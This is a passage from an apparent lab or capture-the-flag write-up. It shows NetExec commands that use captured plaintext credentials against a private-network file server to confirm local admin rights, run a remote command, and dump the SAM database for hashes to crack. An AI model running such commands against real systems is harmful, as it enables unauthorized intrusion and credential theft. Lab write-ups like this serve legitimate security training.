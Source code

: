 The FSADMIN group is very interesting&#x20;

let's take the credentials and try to see where we get some action ->

```
nxc smb 10.1.99.248 -u "benjaminm" -p "w5gzI6&xx%aBqZC^GZ"
```

<figure><img src="../.gitbook/assets/image (1253).png" alt=""><figcaption></figcaption></figure>

the **`(Pwned!)`** message on the line for the host means this account is a local administrator on the file server! bingo, that means we can get remote code execution ->

```
nxc smb 10.1.99.248 -u "benjaminm" -p "w5gzI6&xx%aBqZC^GZ" -X 'net localgroup Administrators'
```

<figure><img src="../.gitbook/assets/image (1254).png" alt=""><figcaption></figcaption></figure>

So nothing stops us from using other sweet tooling from [**`NetExec`**](https://www.netexec.wiki/). We can even easily dump the SAM database to find more hashes to crack!

```
nxc smb 10.1.99.248 -u "benjaminm" -p "w5gzI6&xx%aBqZC^GZ" --sam
```

<figure><img src="../.gitbook/assets/image (1255).png" alt=""><figcaption></figcaption></figure>

Another good thing to know is that it is even capable to look for logged in users ->

<figure><img src="../.gitbook/assets/image (1256).png" alt=""><figcaption></figcaption></figure>
